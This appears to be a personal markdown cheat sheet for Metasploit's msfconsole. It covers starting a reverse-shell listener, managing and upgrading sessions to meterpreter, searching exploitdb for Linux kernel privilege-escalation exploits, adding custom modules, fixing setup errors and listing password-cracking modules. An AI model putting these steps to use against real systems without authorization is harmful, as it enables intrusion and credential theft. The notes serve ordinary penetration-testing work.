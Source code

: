# msfconsole

                                   ___          ____
                               ,-""   `.      < HONK >
                             ,'  _   e )`-._ /  ----
                            /  ,' `-._<.===-'
                           /  /
                          /  ;
              _          /   ;
 (`._    _.-"" ""--..__,'    |
 <_  `-""                     \
  <`-                          :
   (__   <__.                  ;
     `-.   '-.__.      _.'    /
        \      `-.__,-'    _,'
         `._    ,    /__,-'
            ""._\__,'< <____
                 | |  `----.`.
                 | |        \ `.
                 ; |___      \-``
                 \   --<
                  `.`.<
                    `-'

## create reverse listener

> helps to deal with latency

    use multi/handler
    set lport 6666
    exploit -j
    jobs

once pwn / connected:

    sessions -l
    sessions -i <id>

    # upgrade shell to meterpreter
    sessions -u <session_id>

    # kill all jobs
    jobs -k

## manual exploits using exploitdb

One may need to adapt something from the wild or simply use more than msf community has to offer:

    searchsploit privilege | grep -i linux | grep -i kernel | grep 3.13
    searchsploit <keyword1> <keyword2>

    # get full path (/usr/share/exploitdb/)
    searchsploit -p 33824
    locate linux/local/33824.c

## add custom exploit

        $ tree /root/.msf4/modules/
        /root/.msf4/modules/
        ├── exploits
        │   └── windows
        │       └── trusted_privilge_escalation.rb
        └── post
            └── kernel_3_13.rb

## msf db missing role

    msf5 > db_connect msfdb init
    [-] Error while running command db_connect: Failed to connect to the Postgres data service: FATAL:  role "<user>" does not exist

    sudo -u postgres createuser -s $(whoami); createdb $(whoami)

## missing gems

    $ sudo msfconsole
    Unable to find a spec satisfying metasploit-framework (>= 0) in the set. Perhaps the lockfile is corrupted?                                               Run `bundle install` to install missing gems.

    $ cd /usr/share/metasploit-frame
    $ sudo gem install bundler
    $ sudo bundle install
    $ sudo gem update --system

## passwords

    msf6 > search auxiliary/analyze

    Matching Modules
    ================

       #  Name                                      Disclosure Date  Rank    Check  Description
       -  ----                                      ---------------  ----    -----  -----------
       0  auxiliary/analyze/apply_pot                                normal  No     Apply Pot File To Hashes
       1  auxiliary/analyze/crack_aix                                normal  No     Password Cracker: AIX
       2  auxiliary/analyze/crack_databases                          normal  No     Password Cracker: Databases
       3  auxiliary/analyze/crack_linux                              normal  No     Password Cracker: Linux
       4  auxiliary/analyze/crack_mobile                             normal  No     Password Cracker: Mobile
       5  auxiliary/analyze/crack_osx                                normal  No     Password Cracker: OSX
       6  auxiliary/analyze/crack_webapps                            normal  No     Password Cracker: Webapps
       7  auxiliary/analyze/crack_windows                            normal  No     Password Cracker: Windows
       8  auxiliary/analyze/modbus_zip                               normal  No     Extract zip from Modbus communication
       9  auxiliary/scanner/oracle/oracle_hashdump                   normal  No     Oracle Password Hashdump

